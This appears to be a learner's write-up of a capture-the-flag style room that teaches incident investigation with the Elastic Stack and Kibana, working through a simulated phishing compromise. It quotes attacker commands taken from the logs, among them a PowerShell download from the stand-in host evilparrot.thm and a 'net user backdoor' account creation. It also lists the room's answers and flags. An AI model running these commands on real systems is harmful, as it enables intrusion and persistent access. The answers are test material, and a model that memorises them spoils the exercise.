# Introduction
This room will explore the components of the Elastic (ELK) Stack and gain insights into various search and filter functions available in Kibana.

# The Elastic Stack
Core 3 stack:
- Elasticsearch
- Logstash
- Kibana

### Elasticsearch
- Central component of the Elastic stack.
- Distributed search and analytics engine designed for storing and indexing large volumes of data.
- Store and search structured, unstructured, and semi-structured data.
### Logstash
- Data ingestion and processing tool.
- Collect, process, transform data and prepare it for storage in Elasticsearch.
- Can ingest and parse logs from multiple sources.
- Can handle various data types: logs, metrics, events, structured/unstructured data.
- Suited for complex use cases where data requires significant transformation.
### Kibana
- Interactive graphical and visual front-end.
- Allows users to create interactive dashboards, visualizations, reports based on data in Elasticsearch.
### Beats
- Collects various types of data from different sources and forward it directly to Elasticsearch or Logstash.
- Smaller footprint than Logstash. Most suited for simple use cases or where resource usage is a concern.

#### What is the name of the open-source search engine library that Elasticsearch is built on?
Answer: Apache Lucene

#### Which component of the Elastic Stack would you use to perform advanced filtering and processing of data before it gets stored?
Answer: Logstash

# A Compromised Workstation: Scenario
**Bill Smith**, a senior Finance Executive at _Servidae Industries_, stated that he received an email from an unknown sender containing a PDF file attachment that required his action. At first glance, this email appeared legitimate, and he downloaded and opened it without any suspicion. After some time, Bill noticed his computer was acting abnormally and contacted IT Support, claiming that his workstation was slow and freezing up intermittently. Soon after, security alerts indicated suspicious network activity and unauthorized commands executed on Bill's workstation.

A copy of the security alert from the organization's Endpoint Detection & Response (EDR) solution reads:

This is an automated security alert generated by _EndDefender EDR_. Suspicious network activity and **potential** **remote access** were detected on workstation **SERVIDAE-BOB-FIN-04** within the specified time range of: **May 11, 2023 @ 18:45:00.000 to May 11, 2023 @ 19:01:00.000.**

As a **SOC Analyst** at _Servidae Industries_, it's up to you to investigate the security alert by reviewing the logs to identify the cause and nature of the suspicious activity on Bill's computer. Fortunately, the organization recently implemented an **Elastic Stack** solution, and an Elastic Agent was installed to collect logs from Bill's workstation. We have access to the Kibana dashboard, which contains logs from the time of the incident. Let's walk through the investigation and determine if there were any signs of account compromise or malicious user activity.

# Kibana: Basics



#### Update the date and time filter as specified. How many total **hits** were captured within the selected time period?
Answer: 920

# Kibana: Fields and Values

Click on the available field name to reveal the top values for that field. In this example, clicking on *destination.ip* reveals the top values for the destination ip.

This can be used to infer interesting patterns or trends in logs. For example, we can determine if an IP address stand out which could indicate potential use of a command-and-control (C2) server.

#### Look at the **Top values** under the **destination.ip** field. Which IP address stands out?

This address's first octet is unusual compared to the rest.

Answer: 84.237.252.156

#### Use an IP address lookup tool (such as iplocation.io). What country does this IP address originate from?

Answer: Latvia

#### Which **process name** is running the most frequently on the compromised workstation?

Answer: curl.exe

# Kibana: Sorting and Filtering


This filters only shows log events containing a value in the specified field. In this case, it allows us to only see log events that contain information about the specific commands that were run.




By applying these two filters, we can see that the results have narrowed down to 72 and the *agent.name* and *related.user* field are both highlighted with the filter we selected.



From observing *process.command_line* and the file path, we can see that Bill downloaded a PowerShell script that was disguised as a PDF invoice from the phishing email he received. We can determine that this is a PowerShell script from the ".ps1" file extension.

This type of attack is known as *file extension spoofing* to disguise malicious files as harmless documents to trick users into downloading and executing them,
#### What was the **process ID (PID)** of the potentially malicious PowerShell script?
Answer: 6712

#### What was the **parent process name** of the process that spawned powershell.exe?

Answer: explorer.exe

# Indicators of Compromise: Discovery
In the context of MITRE ATT&CK, **Discovery** the adversaries use techniques and methods to gather information about the target environment.
Scrolling down the logs further, we can observe there are other commands being run. Since this is likely suspicious activity with the PowerShell script, these logs appear as Indicators of Compromise (IOCs).

This is common in the "enumeration phase" of an attack on an internal network.


Moving down the logs, we can also observe a suspicious PowerShell cmdlet `powershell -c Invoke-WebRequest`.
- The *Invoke-WebRequest* cmdlet is used to retrieve data from a web server and can be used to download files, interact with REST APIs, and perform other HTTP/HTTPS operations.


Further investigation into this log, the entire command is:
`powershell -c Invoke-WebRequest -Uri "http://evilparrot.thm/winPEASany.exe" -OutFile "winPEAS.exe"`

From this command, it appears that the attacker used the *Invoke-WebRequest* cmdlet to download **winPEASany.exe** file from the attacker's server and saving it as **winPEAS.exe**.
- winPEAS is a script that searches for possible paths to escalate privileges on Windows hosts.


After running winPEAS.exe, it appears the attacker found a potential path to escalate privileges and made some queries into the Windows registry to validate using *reg query*. The attacker is specifically looking for a registry with the **AlwaysInstalledElevated** entry set, and this entry allows users to install programs or updates on the system with elevated privileges.

#### What is the domain name of the attacker's server hosting the **winPEAS** executable?
Answer: evilparrot.thm

#### What is the full path of the **HKEY_LOCAL_MACHINE** registry entry that was queried?
Answer: HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

# Indicators of Compromise: Privilege Escalation
In the context of MITRE ATT&CK, **Privilege Escalation** is a tactic used by adversaries to gain higher access privileges in a compromised system or network.

The **AlwaysInstallElevated** privilege escalation technique is a common exploitation where an attacker acquires and executes an MSI file which is then run with elevated privileges.

We can use **KQL** (Kibana Query Language) to directly search for fields, values, or patterns in the data.
.
Here, we are searching for any logs in the **process.command_line** field containing "msi".


The first result is the **Invoke-WebRequest** cmdlet to download the malicious MSI file. The second log seems to execute the malicious file using **msiexec.exe**.


Validated. Executing **adminshell.msi** likely gave the attacker an **elevated shell** on the compromised workstation.

#### What is the name of the malicious **.msi** file?
Answer: adminshell.msi

# Indicators of Compromise: Persistence
In the context of MITRE ATT&CK, **Persistence** is a tactic used by adversaries to maintain long-term access to a compromised system or network even after initial access.
- Typically involves establishing a **foothold** or a **backdoor** on the system.


We are switching the **related.user** field from **bsmith** to **SYSTEM** since processes that run with elevated privileges are typically in the context of the "SYSTEM" user account.



From these two screenshots, we can observe that there is a small spike of activity at **18:54:00** which is around the time of the attack.

We can observe that there are some suspicious commands executed around **18:54:04**. The command **net user** was used to create a backdoor account with password set to never expire and password changes disabled.
`net user backdoor backdoor /add /expires:never /passwordchg:no`

Then the command **net localgroup** was used to add the newly created backdoor account to the local Administrators group on the compromised system.
`net localgroup Administrators`


Remove the **related.user** filter and change back the date and time range to the original reported attack time range.



Once again, we observe the **Invoke-WebRequest** cmdlet to download a file named beacon.bat from the evilparrot.thm server. The name "**beacon**" may refer to a C2 technique used by attackers to maintain persistence.
- A beacon may periodically send singles or pings to a C2 server.


Reverting back to the old timeline and now digging further into the next time block.


From the log results, we can see that the attacker used the **schtasks** command to create a new automated task called "Beacon," that runs the beacon.bat every minute as the System user.
- The **schtasks** command is typically used to maintain persistence on a compromised system by running a malicious script or executable at specific intervals.
- This also ensures that the attacker's backdoor automatically runs in the event that the system reboots.


The last persistence method can be observed where the attacker added an entry to the Windows registry using the **reg add** command. This command adds a new entry to the "**Run**" key that will cause the adminshell.msi to automatically execute each time Bill logs in.

#### What is the **name** of the **user account** that the attacker created to maintain privileged access?
Answer: backdoor

#### What is the flag sent via **cURL** requests to the **evilparrot.thm** server?

Answer: THM{C4N_y0U_h34r_m3}

#### What is the **name** of the registry value that the attacker added?
Answer: BackdoorShell

# Indicators of Compromise: Lateral Movement
In the context of MITRE ATT&CK, **Lateral Movement** refers to techniques and methods used by adversaries to pivot through multiple systems and explore the network.

Using the same filter from previous section, we can observe that the attacker is testing to see if they can reach the **payoll.servidae.internal** website. This does not necessarily indicate lateral movement, but it indicates that the attacker is attempting to test connectivity to other internal resources.


Changing this timeline will let us see the remaining logs.


After updating the timeline, we can observe several logs attempting to make **cURL** requests to the **payroll.servidae.internal** website.


Apply filter to remove unnecessary repeating logs.


From these logs results, we can observe the attacker conducting a **brute-force login attack** as each log event shows the attacker incrementing password attempts (password=Pass1, password=Pass2, password=Pass3, etc.).



Filtering using PHPSESSID in KQL shows successful login attempts. These logs show the attacker accessing the **/employee-payroll.php** webpage.


Using the KQL Query:
`process.name: "curl.exe" AND NOT process.command_line: *beacon* AND process.command_line: *http\://payroll.servidae.internal/*`
This query also searches for log events where the attacker accessed a directory under the web server's root.
This result shows that the attacker downloaded a potentially **sensitive CSV file** after gaining access into the payroll server.


Investigating this further chronologically, we can observe that after downloading the CSV file, the attacker used the **FTP** command likely to exfiltrate and transfer the stolen document back over to the attacker's system.

## Mitigation
To mitigate against the attacker's ability to move around the network, defense concepts like network segmentation, strict access controls, and Zero Trust principles can be used. Traditional security models relied on the assumption that threats were external and that once inside the network, users and devices could be trusted. However, this approach has proven inadequate with increasing internal threats. "Zero Trust", on the other hand, continuously authenticates and authorizes users, devices, and applications before granting access to resources. 

#### What was the **password** that the attacker used to access Bill's user account on the internal payroll website?

Answer: Password123!

#### What **flag** was included within the **HTTP requests** during the attacker's successful logins?

Answer: THM{1m_1N_Y0ur_P4YR0LL}

#### What was the session cookie value that the attacker included in the cURL request at 18:58:08.001?

Answer: dt5qhq423goknmq269rg1tal1a

#### What is the name of the sensitive file that the attacker downloaded?

Answer: bank-details.csv

# Lesson Learned